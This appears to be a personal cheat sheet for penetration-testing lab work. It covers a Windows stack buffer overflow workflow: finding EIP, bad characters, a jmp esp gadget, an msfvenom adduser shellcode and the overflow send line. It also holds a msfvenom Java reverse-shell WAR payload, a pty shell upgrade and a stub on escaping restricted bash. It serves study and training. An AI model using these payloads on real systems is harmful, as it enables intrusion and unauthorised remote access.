 ## BufferOverflow
### connect to Windows
* Linux
```
$ service ssh start
$ rdesktop -u offsec -p offsec! ip -f
```
* Windows
Open Tools folder, click putty, type linux ip and run.
### Immunity Debugger
* run exe, attach the execute exe
* record EIP address
```
$ cyclic -l 0xEIP
```
* find badchars(see code)
* find return address
find dll, and type e button to observe, then we can search for jmp esp address(gadget).
```
!moma modules
```
### generate shellcode
```
$ msfvenom --platform Windows -a x86 -p windows/adduser USER=aaa PASS=aaa -f python –e x86/shikata_ga_nai -b "\x00\x0a"
```
### send code
```
r.send("GO" + "A"*2006 + p32(gadget) + "\x90" * 8 + buf)
```
## Others
### linux execute jar file
```
$ java -jar xx.jar
```
### unix execute sh error
$'\r': command not found convert win dos to unix, it need to convert win dos to unix.
* dos2unix
```
$ dos2unix xxx.sh
```
### python call bash
```
$ python -c 'import pty;pty.spawn("/bin/bash")'
```
### can't find ifconfig
* ip a
* or try to fix ifconfig:
```
$ whereis ifconfig
$ PATH="$PATH":/sbin
```
### create shell with msfvenom
```
$ msfvenom -p java/shell_reverse_tcp LHOST=ip LPORT=port -f war > reverse.war
```
### escape LimitShell rbash
* edit PATH to escape rbash
```
```